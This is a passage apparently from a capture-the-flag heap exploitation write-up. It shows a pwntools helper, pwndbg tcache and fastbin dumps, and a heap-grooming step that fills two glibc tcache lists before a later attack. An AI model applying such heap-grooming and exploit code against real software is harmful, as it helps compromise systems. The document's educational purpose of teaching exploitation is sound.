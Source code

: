 ```python
    p.recvuntil('index: ')
    p.sendline(str(index))
```

Currently the heap bins look clean:

```
pwndbg> bins
tcachebins
0x410 [  1]: 0x55ea9413c2a0 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
```

The next preparation step at this point is to fill up 2 tcache lists of sizes 0xf0 and 0x128:

```
for i in range(7):
  add(0xf0)
for i in range(7):
  free(i)
for i in range(7):
  add(0x128)
for i in range(7):
  free(i)
```

Tcaches are a new single linked list structure in glibc >= 2.26. It creates such a list for every size that is freed and has a capacity of 7. Allocations will be served by the tcache first if one of the required size exists.

Heap bins:

```
pwndbg> bins
tcachebins
0x100 [  7]: 0x558330cbecc0 —▸ 0x558330cbebc0 —▸ 0x558330cbeac0 —▸ 0x558330cbe9c0 —▸ 0x558330cbe8c0 —▸ 0x558330cbe7c0 —▸ 0x558330cbe6c0 ◂— 0x0
0x130 [  7]: 0x558330cbf4e0 —▸ 0x558330cbf3b0 —▸ 0x558330cbf280 —▸ 0x558330cbf150 —▸ 0x558330cbf020 —▸ 0x558330cbeef0 —▸ 0x558330cbedc0 ◂— 0x0
0x410 [  1]: 0x558330cbd2a0 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
empty
```
